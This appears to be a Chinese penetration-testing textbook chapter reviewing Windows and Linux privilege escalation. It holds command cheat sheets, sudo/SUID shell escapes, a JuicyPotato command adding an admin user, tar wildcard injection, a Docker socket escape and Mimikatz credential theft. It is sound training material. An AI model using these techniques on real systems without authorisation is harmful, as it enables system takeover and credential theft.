





# 第45章 Linux提权技术

> **难度等级：🟡 中等级（总结复习章）**
>
> **预计学习时间：120分钟**
>
> **本章看点：提权知识体系梳理、Windows/Linux提权思路对比、常用命令速查表、提权工具清单、提权优先级与方法论、5个综合提权案例、面试常见问题**

::: tip 写在前面
恭喜你，
提权技术模块我们就学完了！

这三章内容非常多，
从Windows提权基础到进阶，
再到Linux提权技术，
涵盖了几乎所有常见的提权方法。

这一章我们来做一个系统的总结，
帮你梳理知识体系，
建立提权的整体思路。

学完这一章，
你应该能够：
- 建立完整的提权知识体系
- 掌握提权的一般思路和步骤
- 知道在不同场景下该怎么入手
- 应对常见的提权面试题

准备好了吗？
开始复习！
:::

---

> 💡 **提权模块总结——一句话版本**
>
> 提权三章核心就一件事：**从低权限变高权限。**
> Windows找配置错误/服务/注册表，Linux找sudo/SUID/cron。
> 提权不是盲目试exp，而是系统性地排查每一个可能的入口。
> 信息收集越充分，提权成功率越高。
> 记住：Windows用PowerUp/WinPEAS，Linux用LinPEAS/GTFOBins。

## 📖 模块概述

### 1.1 我们学了什么

这个模块我们用了三章：
- **第43章：Windows提权基础** — 基础概念、权限体系、信息收集、辅助工具
- **第44章：Windows提权进阶** — 各种具体的提权方法
- **第45章：Linux提权技术** — Linux提权全解析

**核心内容：**
- Windows权限体系和提权方法
- Linux权限体系和提权方法
- 提权的思路和方法论
- 各种提权工具的使用
- 实战案例

**图46-1 提权技术模块三章知识体系图**



### 1.2 为什么提权很重要

提权是渗透测试的核心环节之一，
也是从"能进去"到"能控制"的关键一步。

**为什么要提权？**
1. **获得更高权限** — 普通用户权限受限，很多操作做不了
2. **抓取密码Hash** — 通常需要管理员/root权限
3. **安装后门** — 高权限才能安装持久化后门
4. **横向移动** — 有了高权限凭据，才能进一步渗透
5. **扩大战果** — 从一台机器到整个内网

**提权在渗透流程中的位置：**
```
信息收集 → 漏洞利用 → 获得初始访问 → **提权** → 横向移动 → 权限维持 → 痕迹清理
```

**图46-2 提权在渗透测试流程中的位置图**



---

## 🧭 提权方法论

### 2.1 提权的一般步骤

不管是Windows还是Linux，
提权的基本思路都是一样的：

**第一步：明确当前权限**
- 我是谁？（当前用户是谁）
- 我有什么权限？（用户组、特权、sudo等）
- 我能做什么？（哪些文件能读写、哪些命令能执行）

**第二步：全面收集信息**
- 系统信息（版本、补丁、架构）
- 用户信息（所有用户、组、密码）
- 服务和进程（运行了什么、以什么权限运行）
- 文件系统（哪些文件可写、SUID/SGID等）
- 计划任务
- 网络信息
- 配置文件和敏感文件

**第三步：分析提权路径**
根据收集到的信息，
分析可能的提权路径，
并按优先级排序。

**第四步：按优先级尝试**
从成功率高、风险低的开始，
逐一尝试。

**第五步：提权成功，验证**
成功后验证权限，
然后继续下一步操作。

### 2.2 提权优先级

**优先级从高到低：**

1. **配置错误类（成功率最高，风险最低）**
   - sudo / 组策略配置错误
   - SUID / 服务权限错误
   - 计划任务配置错误
   - 写入关键文件
   - 密码复用 / 弱密码

2. **第三方软件漏洞**
   - 有漏洞的服务（以高权限运行的）
   - 有漏洞的驱动程序
   - 第三方软件的配置错误

3. **内核漏洞（威力大，但有风险）**
   - Windows内核漏洞
   - Linux内核漏洞
   - 注意系统崩溃的风险

**为什么这样排序？**
- 配置错误最常见，也最稳妥，不会搞崩系统
- 第三方漏洞次之
- 内核漏洞放在最后，因为有蓝屏/崩溃风险

**图46-3 提权方法优先级决策图**



### 2.3 Windows vs Linux 提权对比

| 方面 | Windows | Linux |
|------|---------|-------|
| 最高权限 | SYSTEM / Administrator | root |
| 权限体系 | 用户、组、权限、特权、ACL | 用户、组、权限位、SUID/SGID、能力 |
| 最常见提权方式 | 服务配置错误、内核漏洞 | sudo配置错误、SUID、内核漏洞 |
| 信息收集工具 | PowerUp、WinPEAS | LinPEAS、LinEnum |
| 计划任务 | 服务管理器（services.msc）、任务计划程序 | crontab、/etc/cron.*、systemd timers |
| 经典漏洞 | MS17-010、MS16-032、PrintNightmare | Dirty COW、Dirty Pipe、Sudo漏洞 |
| 令牌窃取 | Incognito、Potato系列 | 相对少见 |
| 容器逃逸 | 较少见 | Docker、LXC 很常见 |

**共同点：**
- 都是先收集信息，再分析利用
- 配置错误都是最常见的提权方式
- 内核漏洞都是最后的手段
- 都需要对系统有深入的理解

**图46-4 Windows vs Linux 提权对比图**



---

## ⚡ Windows提权速查

### 3.1 信息收集速查

```cmd
::: 基本信息
whoami /all                :: 查看当前用户所有信息
systeminfo                 :: 系统详细信息
hostname                   :: 主机名
ver                        :: Windows版本

::: 用户和组
net users                  :: 所有本地用户
net localgroups            :: 所有本地组
net localgroup administrators :: 管理员组成员
net user 用户名            :: 查看用户详情

::: 服务和进程
tasklist /v                :: 进程列表
tasklist /svc              :: 进程和服务
net start                  :: 启动的服务
sc query state= all        :: 所有服务
sc qc 服务名               :: 服务详细配置

::: 网络信息
ipconfig /all              :: 网络配置
netstat -ano               :: 网络连接
route print                :: 路由表
arp -a                     :: ARP表

::: 计划任务
schtasks /query /fo LIST /v :: 所有计划任务

::: 补丁信息
wmic qfe get Caption,Description,HotFixID,InstalledOn :: 已安装补丁
```

### 3.2 提权方法速查

**1. 服务配置错误**
```cmd
:: 查找未引用的服务路径
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"

:: 检查服务文件权限
icacls "服务路径"

:: 检查服务注册表权限
:: 用PowerUp的Get-ServiceRegPermissions
```

**2. 注册表提权**
```cmd
:: AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

:: 自动登录密码
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

**3. 计划任务提权**
```cmd
schtasks /query /fo LIST /v
:: 找以高权限运行且我们能修改的任务
```

**4. 令牌窃取**
```bash
# Meterpreter中
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

**5. Potato提权**
```cmd
:: Juicy Potato
JuicyPotato.exe -t * -p cmd.exe -a "/c whoami"

:: PrintSpoofer
PrintSpoofer.exe -i -c cmd
```

### 3.3 常用工具速查

| 工具 | 用途 | 说明 |
|------|------|------|
| PowerUp | 提权点扫描 | PowerShell脚本，检查常见配置错误 |
| WinPEAS | 全面信息收集 | 非常强大，彩色输出 |
| Windows Exploit Suggester | 内核漏洞检测 | 对比补丁，列出可能的漏洞 |
| Incognito | 令牌窃取 | Meterpreter扩展 |
| Juicy Potato | 令牌模拟 | 利用SeImpersonatePrivilege |
| PrintSpoofer | 打印服务提权 | 利用打印服务和模拟权限 |
| Mimikatz | 凭据抓取 | 提权后用来抓密码 |
| MSF | 综合利用框架 | 有很多提权模块 |

> 💡 **深入理解：Potato类提权的本质——"令牌模拟"到底是怎么实现的？**
>
> Potato类提权（Juicy Potato、Rotten Potato、PrintSpoofer等）
> 是Windows提权中非常经典的一类方法。
> 它们的核心原理都指向同一个概念：**SeImpersonatePrivilege（模拟权限）**。
>
> 什么是模拟（Impersonation）？
> 这是Windows的一个设计特性，允许一个进程
> "假装"自己是另一个用户来执行操作。
>
> 典型场景：
> ```
> Web服务器（IIS）以 NETWORK SERVICE 账户运行
> 当用户访问网站时，IIS需要"模拟"这个用户去读文件
> 所以 NETWORK SERVICE 有 SeImpersonatePrivilege 权限
> ```
>
> Potato类攻击的利用链条：
> ```
> 1. NETWORK SERVICE 账户有 SeImpersonatePrivilege
> 2. 攻击者以 NETWORK SERVICE 运行一个恶意程序
> 3. 这个程序创建一个"诱饵"——比如监听的命名管道
> 4. 诱导 SYSTEM 账户来连接这个诱饵
>    （比如让COM服务、RPC服务、打印服务等以SYSTEM身份连接）
> 5. 当 SYSTEM 连接进来时，恶意程序使用 SeImpersonatePrivilege
>    调用 ImpersonateNamedPipeClient() 函数
> 6. 把自己的身份"变成"SYSTEM（模拟成功了！）
> ```
>
> 这里的关键是第4步：怎么让SYSTEM来连接你？
> 不同版本的Potato用了不同的"诱饵"：
> - **Juicy Potato**：利用COM/DCOM的BITS服务
> - **Rotten Potato**：利用本地NTLM认证
> - **PrintSpoofer**：利用打印服务的命名管道
> - **Sweet Potato**：组合多种诱饵方式
>
> 所以 Potato 类攻击的本质是：
> **你（NETWORK SERVICE）有"模拟别人"的权限，
> 然后你用各种办法把 SYSTEM 请来你这里做客，
> 最后冒充它！**
>
> 这就是为什么 `whoami /priv` 看到 SeImpersonatePrivilege
> 就要条件反射想到：这台机器可以用 Potato！

---

## 🐧 Linux提权速查

### 4.1 信息收集速查

```bash
### 基本信息
id                          # 当前用户信息
whoami                      # 当前用户名
uname -a                    # 内核和系统信息
cat /etc/os-release         # 发行版信息
hostname                    # 主机名

### 用户和组
cat /etc/passwd             # 所有用户
cat /etc/group              # 所有组
cat /etc/shadow             # 密码Hash（需要权限）
sudo -l                     # sudo权限

### 服务和进程
ps aux                      # 所有进程
ps aux | grep root          # root运行的进程
netstat -tulnp              # 监听端口
ss -tulnp                   # 监听端口（更现代）

### 文件系统
find / -perm -4000 -type f 2>/dev/null  # SUID文件
find / -perm -2000 -type f 2>/dev/null  # SGID文件
find / -writable -type f 2>/dev/null    # 可写文件
find / -writable -type d 2>/dev/null    # 可写目录

### 计划任务
crontab -l                  # 当前用户的crontab
cat /etc/crontab            # 系统crontab
ls -la /etc/cron.d/         # cron.d目录
ls -la /etc/cron.hourly/    # 每小时任务
ls -la /etc/cron.daily/     # 每天任务

### 网络信息
ip a                        # 网络接口
ifconfig                    # 网络接口（老命令）
route -n                    # 路由表
ip route                    # 路由表（新命令）
arp -a                      # ARP表
ip neigh                    # ARP表（新命令）
cat /etc/hosts              # hosts文件
cat /etc/resolv.conf        # DNS配置

### 配置文件
ls -la ~/.ssh/              # SSH密钥
cat ~/.bash_history         # 历史命令
find / -name "*.conf" 2>/dev/null | head -20  # 配置文件
```

### 4.2 提权方法速查

**1. sudo提权**
```bash
# 查看sudo权限
sudo -l

# 常见提权命令
sudo vim -c ':!/bin/bash'
sudo find . -exec /bin/bash \; -quit
sudo awk 'BEGIN {system("/bin/bash")}'
sudo python -c 'import os; os.system("/bin/bash")'
sudo perl -e 'exec "/bin/bash"'

# GTFOBins查更多: https://gtfobins.github.io/
```

**2. SUID提权**
```bash
# 查找SUID文件
find / -perm -4000 -type f 2>/dev/null

# 常见SUID提权
bash -p
find . -exec /bin/bash -p \; -quit
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**3. 计划任务提权**
```bash
# 查看所有计划任务
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.*

# 找可写的脚本
# 找通配符注入的机会
```

**4. 内核漏洞提权**
```bash
# 检测工具
./linux-exploit-suggester.sh

# 经典漏洞
# Dirty COW (CVE-2016-5195)
# Dirty Pipe (CVE-2022-0847)
# Sudo Baron Samedit (CVE-2021-3156)
# Polkit (CVE-2021-3560)
```

### 4.3 常用工具速查

| 工具 | 用途 | 说明 |
|------|------|------|
| LinPEAS | 全面信息收集 | Linux提权信息收集神器 |
| LinEnum | 信息收集脚本 | 另一个常用的收集脚本 |
| Linux Exploit Suggester | 内核漏洞检测 | 检测可能的内核漏洞 |
| GTFOBins | 命令提权查询 | 网站，查各种命令的提权姿势 |
| pspy | 进程监控 | 监控进程执行，发现隐藏的计划任务 |
| Mimipenguin | 密码抓取 | Linux版的mimikatz |
| MSF | 综合利用框架 | 有很多Linux提权模块 |

---

## 🛠️ 提权工具清单

### 5.1 Windows工具

**信息收集类：**
- WinPEAS — 全能型信息收集脚本
- PowerUp — PowerShell提权辅助脚本
- Windows Exploit Suggester — 内核漏洞检测
- Seatbelt — C#编写的信息收集工具
- SharpUp — C#版的PowerUp

**提权利用类：**
- Juicy Potato / Rotten Potato / Rogue Potato / GodPotato — 各种Potato
- PrintSpoofer — 打印服务提权
- Incognito — 令牌窃取
- Mimikatz — 凭据抓取（提权后用）
- UACME — UAC绕过大合集
- PrintNightmare EXP — 打印服务漏洞

**框架类：**
- Metasploit Framework — 提权模块很多
- Cobalt Strike — 后渗透神器
- Empire — PowerShell后渗透框架

### 5.2 Linux工具

**信息收集类：**
- LinPEAS — 全能型信息收集脚本
- LinEnum — 另一个信息收集脚本
- Linux Exploit Suggester — 内核漏洞检测
- pspy — 进程监控工具
- linux-smart-enumeration — 又一个枚举脚本

**提权利用类：**
- Dirty COW EXP — 脏牛漏洞
- Dirty Pipe EXP — 脏管道漏洞
- Sudo漏洞EXP — 各种sudo漏洞
- Polkit漏洞EXP — polkit提权
- 各种内核漏洞EXP

**框架类：**
- Metasploit Framework
- Cobalt Strike

### 5.3 在线资源

| 资源 | 地址 | 用途 |
|------|------|------|
| GTFOBins | https://gtfobins.github.io/ | Linux命令提权查询 |
| LOLBAS | https://lolbas-project.github.io/ | Windows系统程序提权查询 |
| Exploit-DB | https://www.exploit-db.com/ | 漏洞利用数据库 |
| CVE Details | https://www.cvedetails.com/ | CVE漏洞详情 |
| 内核漏洞列表 | 各大安全厂商博客 | 内核漏洞分析 |

**图46-5 提权工具生态系统图**



---

## 🎯 综合案例分析

### 案例1：Windows Web服务器提权全流程

**场景：**
通过SQL注入拿到了一台Windows Server 2012 R2
Web服务器的WebShell，
权限是IIS应用池身份。

**提权思路：**

**第一步：信息收集**
1. 先看当前权限：iis apppool\defaultapppool
2. 上传WinPEAS，跑一遍
3. 重点关注：服务、注册表、计划任务、SUID（Windows没有SUID，但有类似的）

**第二步：分析结果**
WinPEAS结果：
- 发现服务有几个配置错误的
  - 有一个服务路径没有引号，且路径中我们能写
  - 有一个服务的exe我们能修改
- 发现AlwaysInstallElevated没开
- 发现计划任务没什么可利用的
- 系统补丁比较多，内核漏洞可能不多

**第三步：按优先级尝试**
1. 先试服务配置错误 — 成功率高，风险低
2. 如果不行，再试其他方法
3. 最后考虑内核漏洞

**第四步：具体利用（服务路径未引用）**
- 服务路径：`D:\Web Services\AppService\app.exe`
- 我们对`D:\Web Services\`有写入权限
- 创建恶意exe：`D:\Web Services\AppService.exe`
- 但是服务不能手动重启
- 发现服务器每天凌晨自动更新，会重启服务
- 等，或者想其他办法

**第五步：另一个选择（服务exe可写）**
- 另一个服务的exe我们能直接修改
- 备份原exe
- 替换成恶意exe
- 但是同样不能重启服务
- 而且这个服务有守护进程，替换了会被恢复
- 这条路暂时不行

**第六步：换个思路**
- 看看能不能找到配置文件里的密码
- 看Web应用的配置文件，找到数据库密码
- 数据库是MSSQL，在另一台服务器上
- 暂时用不上
- 看看应用池的配置有没有用

**第七步：检查SeImpersonatePrivilege**
```cmd
whoami /priv
```
- 发现有SeImpersonatePrivilege！
- 太好了，可以用Juicy Potato

**第八步：Juicy Potato提权**
- 上传JuicyPotato.exe
- 执行：`JuicyPotato.exe -t * -p cmd.exe -a "/c net user hack P@ssw0rd /add && net localgroup administrators hack /add"`
- 成功！添加了管理员用户

**第九步：验证**
- 用新账号登录
- 获得管理员权限
- 提权成功

**总结：**
- 先收集信息，全面分析
- 从最稳妥的方法开始尝试
- 不行就换思路
- 服务账户一般有SeImpersonatePrivilege，Potato很好用

---

### 案例2：Linux Web服务器提权全流程

**场景：**
通过文件上传漏洞拿到一台CentOS 7
Web服务器的WebShell，
权限是apache。

**提权思路：**

**第一步：信息收集**
```bash
id
# uid=48(apache) gid=48(apache) groups=48(apache)

uname -r
# 3.10.0-693.el7.x86_64

cat /etc/redhat-release
# CentOS Linux release 7.4.1708 (Core)
```

上传LinPEAS，跑一遍。

**第二步：分析结果**
LinPEAS结果：
- sudo：没有sudo权限
- SUID：都是系统默认的，没发现异常
- 可写文件：/tmp、/var/tmp、web目录等
- 计划任务：发现一个每小时运行的备份脚本
  - 脚本是root运行的
  - 脚本路径：/opt/backup.sh
  - 但是脚本我们不能写
- 内核版本：3.10.0-693，比较老
  - 可能有内核漏洞

**第三步：进一步分析计划任务**
虽然脚本不能写，
但是看看脚本内容：
```bash
cat /opt/backup.sh

#!/bin/bash
cd /var/www/html
tar czf /backup/html_backup_$(date +%Y%m%d_%H%M%S).tar.gz *
```

哦！脚本里用了tar和通配符`*`！
而且`/var/www/html`是网站根目录，
我们能写！

这就是经典的tar通配符注入啊！

**第四步：tar通配符注入利用**
```bash
cd /var/www/html

# 创建shell脚本
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
chmod +x shell.sh

# 创建特殊文件名
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
```

**第五步：等待计划任务执行**
计划任务是每小时运行一次，
最多等一个小时。

**第六步：验证**
```bash
ls -l /tmp/bash
# -rwsr-sr-x 1 root root ... /tmp/bash

/tmp/bash -p
whoami
# root
```

成功！

**总结：**
- 仔细看每个计划任务的脚本内容
- 通配符注入是很常见的提权方式
- 不需要内核漏洞，风险低
- 就是需要等一等

---

### 案例3：从普通用户到域管理员（提权+凭据）

**场景：**
拿到了一台域内机器的普通用户权限，
想提权并获取域管理员权限。

**步骤：**

**第一步：本地提权**
- 在本地机器上提权到System
- 用前面讲的各种方法
- 比如：服务配置错误、内核漏洞等

**第二步：抓取本地凭据**
- 用Mimikatz抓取密码Hash
- 抓取到：
  - 本地管理员Hash
  - 当前用户Hash
  - 可能还有缓存的域凭据

**第三步：分析凭据**
- 看看有没有其他机器也用了同样的本地管理员密码
- 看看能不能用当前用户做横向移动

**第四步：横向移动**
- 用抓到的Hash尝试登录其他机器
- 找到更多机器的访问权限

**第五步：寻找域管理员**
- 找到域管理员登录过的机器
- 在那台机器上抓域管理员的Hash或票据

**第六步：获得域管理员权限**
- 用域管理员的Hash或票据
- 登录域控
- 获得整个域的控制权

**总结：**
- 提权只是第一步，不是终点
- 提权后要抓凭据，为横向移动做准备
- 从普通用户到域管理员是一步步来的
- 每一步都需要信息收集和分析

（后面的章节会详细讲横向移动和域渗透）

---

### 案例4：Docker容器逃逸到宿主机root

**场景：**
拿到一个Docker容器里的Shell，
是容器里的root，
想逃逸到宿主机。

**思路：**

**第一步：判断是不是容器**
```bash
ls -la /.dockerenv
cat /proc/1/cgroup
# 确认是Docker容器
```

**第二步：检查逃逸路径**
1. 是不是特权容器？
   - 看capabilities
   - 看能不能挂载设备
2. 有没有挂载docker.sock？
   - `ls -la /var/run/docker.sock`
3. 有没有挂载宿主机目录？
   - `mount`
4. 内核版本有没有漏洞？
   - `uname -r`

**第三步：发现docker.sock**
```bash
ls -la /var/run/docker.sock
# 存在！并且可读写！
```

**第四步：通过docker.sock逃逸**
```bash
# 先看看有没有docker命令
which docker
# 如果没有，用curl也行

# 查看docker版本
curl -s --unix-socket /var/run/docker.sock http://localhost/version

# 创建新的特权容器，挂载宿主机根目录
# 如果有docker命令
docker run -v /:/host -it --privileged ubuntu chroot /host bash

# 或者用API调用
curl -s -X POST --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  http://localhost/containers/create \
  -d '{
    "Image": "ubuntu",
    "Cmd": ["chroot", "/host", "bash"],
    "Privileged": true,
    "Binds": ["/:/host"]
  }'
```

**第五步：获得宿主机root**
进入新容器后：
```bash
chroot /host bash
whoami
# root — 宿主机的root！
```

**总结：**
- Docker容器逃逸要先检查常见路径
- docker.sock挂载是最常见的配置错误
- 特权容器也很常见
- 都没有的话再考虑内核漏洞

---

### 案例5：没有明显提权点怎么办？

**场景：**
信息收集都做了，
工具也跑了，
没发现明显的提权点，
怎么办？

**思路：**

**第一步：再仔细检查一遍**
- 是不是漏掉了什么？
- 有没有没注意到的细节？
- 工具的输出有没有仔细看？

**第二步：深入挖掘**
- 查看所有配置文件，找密码
- 查看历史命令，找线索
- 查看所有用户的家目录
- 查看备份文件
- 查看数据库里的内容
- 查看Web应用的源代码，找硬编码的密码

**第三步：密码复用尝试**
- 找到的所有密码，都试试能不能sudo
- 试试su到其他用户
- 试试SSH登录其他机器

**第四步：第三方服务漏洞**
- 看看运行了哪些第三方服务
- 这些服务有没有已知漏洞
- 比如：MySQL、PostgreSQL、Redis等
- 如果服务以root运行且有漏洞，也能提权

**第五步：内核漏洞**
- 跑一下内核漏洞检测工具
- 找找有没有对应版本的内核漏洞
- 注意风险，重要系统谨慎使用

**第六步：换个思路**
- 不一定要在这台机器上提权
- 可以用这台机器做跳板
- 先横向移动，去其他机器看看
- 说不定其他机器更容易提权

**总结：**
- 提权不一定要死磕一台机器
- 多收集信息，多找线索
- 密码复用是很常见的
- 横向移动也是一种选择
- 思路要灵活

---

## 🎤 面试常见问题

### 问题1：你常用的提权方法有哪些？

**回答思路：**
分Windows和Linux，
按优先级说，
每种方法简单说一下原理。

**参考回答：**
> 我常用的提权方法主要分几类：
>
> **Windows方面：**
> 1. **服务配置错误提权** — 比如未引用的服务路径、服务文件权限错误、服务注册表权限错误。这是最常见也最稳妥的方式，因为不会导致系统崩溃。
> 2. **注册表相关提权** — 比如AlwaysInstallElevated，开启后普通用户也能以System权限安装MSI。
> 3. **计划任务提权** — 如果有以高权限运行的计划任务，并且任务的脚本或命令我们能控制，就可以提权。
> 4. **令牌窃取与模拟** — 比如用Incognito偷令牌，或者用Juicy Potato/PrintSpoofer利用SeImpersonatePrivilege权限。
> 5. **内核漏洞提权** — 比如MS17-010、PrintNightmare等。这个威力大，但有蓝屏风险，一般最后才考虑。
>
> **Linux方面：**
> 1. **sudo配置错误** — 如果sudo配置不当，比如允许普通用户以root身份执行某些命令，就可以通过这些命令提权。
> 2. **SUID/SGID提权** — 设置了SUID位的程序，如果是root所有的，并且程序本身可以被利用，就能提权。
> 3. **计划任务提权** — 和Windows类似，利用root运行的计划任务。
> 4. **通配符注入** — 比如tar、zip等命令和通配符一起使用时，可以通过特殊文件名注入参数。
> 5. **内核漏洞提权** — 比如Dirty COW、Dirty Pipe、Sudo漏洞等。
>
> 提权的一般思路是先收集信息，然后按优先级从配置错误到内核漏洞逐一尝试。

---

### 问题2：拿到一个Shell后，提权的步骤是什么？

**回答思路：**
按流程说，
体现出你的方法论。

**参考回答：**
> 我一般按以下步骤来：
>
> **第一步：确认当前权限**
> 先搞清楚我是谁、我有什么权限。
> - Windows：`whoami /all`、`net user 用户名`
> - Linux：`id`、`sudo -l`
>
> **第二步：全面信息收集**
> 收集系统的各种信息，包括：
> - 系统信息（版本、补丁、架构）
> - 用户和组信息
> - 运行的服务和进程
> - 文件系统权限（SUID、可写文件等）
> - 计划任务
> - 网络信息
> - 配置文件和敏感文件
>
> 一般会用自动化工具先跑一遍，比如WinPEAS、LinPEAS、PowerUp这些。
>
> **第三步：分析提权路径**
> 根据收集到的信息，分析可能的提权路径，并按优先级排序：
> 1. 配置错误类（成功率高、风险低）
> 2. 第三方软件漏洞
> 3. 内核漏洞（威力大、有风险）
>
> **第四步：按优先级尝试**
> 从最稳妥的开始试，一个一个来，不要上来就用内核漏洞。
>
> **第五步：验证结果**
> 提权成功后验证权限，然后继续下一步操作，比如抓取凭据、横向移动等。
>
> 整个过程中，信息收集是最重要的，信息越全，提权成功率越高。

---

### 问题3：说几个你印象最深的提权案例

**回答思路：**
说2-3个案例，
每个案例讲清楚：
场景、难点、解决方法、收获。

**参考回答：**
> 说两个印象比较深的吧。
>
> **第一个是一次护网行动中的Windows提权。**
> 当时通过SQL注入拿到了一台Web服务器的Shell，是IIS应用池的权限，很低。
> 一开始跑了WinPEAS，发现了几个可能的提权点，但是都有各种问题，比如服务不能重启。
> 后来我检查当前用户的特权，发现有SeImpersonatePrivilege，就试了Juicy Potato，
> 但是一开始没成功，换了几个CLSID也不行。
> 最后用PrintSpoofer试了一下，一次就成功了，直接拿到了System权限。
> 这件事让我明白，提权工具要多备几个，这个不行换那个，不要一棵树上吊死。
>
> **第二个是一个Linux的tar通配符注入案例。**
> 拿到了一个普通用户权限，sudo和SUID都没发现问题。
> 后来看计划任务，发现一个root运行的备份脚本，
> 脚本里用了`tar czf backup.tar.gz *`来打包文件。
> 刚好那个目录我们能写，我就用了tar的通配符注入，
> 创建了`--checkpoint=1`和`--checkpoint-action=exec=sh shell.sh`这两个文件，
> 等计划任务执行后，成功拿到了root权限。
> 这个案例让我意识到，细节很重要，要仔细看每个脚本的内容，
